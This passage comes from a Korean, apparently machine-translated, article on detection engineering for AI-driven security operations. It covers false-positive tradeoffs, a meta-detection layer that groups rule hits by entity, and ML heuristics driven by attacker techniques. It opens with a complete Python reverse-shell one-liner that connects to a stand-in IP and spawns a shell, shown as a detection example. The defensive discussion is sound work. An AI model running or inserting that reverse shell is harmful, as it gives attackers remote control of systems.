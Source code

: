 ```js
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

FPR을 감소시키면 False-Negative가 증가합니다. 따라서, 특이한 이름을 가진 스크립트로부터 Python 실행을 놓칠 수 있습니다. 예를 들어, python fake_server.py와 같이 사용자가 도용한 가짜 서비스를 사용하는 공격자들이 사용할 수 있는 스크립트입니다. 이를 위해 이러한 TTP들의 하위 집합에 중점을 둔 FPR이 낮은 별도의 휴리스틱을 만들어보는 것이 좋을 수 있습니다.

# 메타-감지 계층

<div class="content-ad"></div>

스위스 치즈 방법론을 따라도 상세한 휴리스틱을 얻게 됩니다. 보통 이러한 것들은 악의적인 의도를 나타내는 것은 아니지만 맥락에 관심이 있는 것입니다.

예를 들어, 새 소스에서 고심도 호스트로 SSH/RDP 로그인하는 것은 나쁜 것이 아닙니다(그냥 새 직원이나 워크스테이션일 수 있습니다), 또한 skilled 사용자 중에 whoami /all 실행이 일반적일 수 있습니다. 따라서 이러한 휴리스틱 모두 경보를 직접 트리거하기에 적합하지 않습니다. 그러나 두 가지의 조합은 분석가의 주의를 끌 수 있을지도 모릅니다.

이 딜레마의 해결책은 "True Positive Benigns"를 생성하는 이러한 상세한 규칙 위에 추가적인 논리를 도입하는 것입니다. 우리는 이것을 메타-감지 계층이라고 부를 수 있습니다.

![아키텍처](/assets/img/2024-05-20-ArchitectureofAI-DrivenSecurityOperationswithaLowFalsePositiveRate_6.png)

<div class="content-ad"></div>

룰 활성화 위에 적용되는 메타로직은 다양할 수 있지만 일반적으로 두 단계로 이뤄집니다:

- "그룹화": 모든 활성화를 "엔티티"별(예: 호스트, 사용자 이름, 소스 IP, 쿠키 등)로 그룹화합니다.
- 일정 기간 내의 활성화에 대한 "집계 함수"를 적용합니다.

간단하면서도 기능적인 메타 탐지 로직의 예시:

- 단일 엔티티(호스트 또는 사용자와 같은)에서 다른 룰 트리거의 수를 카운트하고, 세 시간 내에 세 가지 이상의 다른 룰이 트리거되면 보고합니다.
- 위와 동일하나, 심각성을 기준으로 룰에 가중치를 부여하고, "중요" 룰은 3으로, "중간"은 2로, "정보"는 1로 취급하여 임계값을 초과할 경우 보고합니다.

<div class="content-ad"></div>

더 정교한 방법들이 존재하는데, 저는 악성 코드 표현에 ML의 두 번째 층을 사용하는 AISec ’22 논문에 정의된 방법을 사용하고 있어요. 이들은 특정 어플리케이션과 환경에 튜닝되어야 해요. 왜냐하면 데이터 세부 정보, 텔레메트리 양 및 인프라 규모에 따라 다른 접근 방식이 필요해요. 이러한 접근 방식은 적절한 경고 한도를 유지하는 데 도움이 돼요.

# 결론

이 기사에서 우리는 시그니처 방식을 넘어서 보안 작업 무기함을 확장하는 사고 방식에 대해 논의했어요. 대부분의 구현은 보안 전문가들이 기계 학습(ML)을 통한 행동 휴리스틱에 너무 광범위한 요구 사항을 정의하기 때문에 제대로 수행하지 못했어요.

우리는 적절한 적용은 공격적인 기술, 전술 및 절차(TTPs)에 의해 이끌어져야 한다고 주장해요. 올바르게 사용될 때, ML 기술은 특정 TTP 주변의 합법적인 활동의 기준을 효율적으로 걸러내는 데 많은 인력을 절약할 수 있어요.

<div class="content-ad"></div>

성숙하고 성공적인 보안 체계는 시그니처와 행동 휴리스틱이 결합된 것으로 구성됩니다. 각각의 별도 검출 논리는 낮은 거짓 긍정률을 갖추고, 거짓 부정을 놓치지 않기 위한 제한 사항은 병렬로 여러 휴리스틱을 적용함으로써 균형을 이룹니다.

이 글에서 사용된 예시는 전통적인 보안 운영에 적용될 경우 감지 엔지니어링 사례를 포함하고 있습니다. 그러나 우리는 같은 방법론이 제한적인 수정을 통해 다른 보안 응용프로그램에서도 유용할 것이라 주장합니다. 예를 들어, EDR/XDR 휴리스틱 공간, 네트워크 트래픽 분석 및 계산 등이 있습니다.
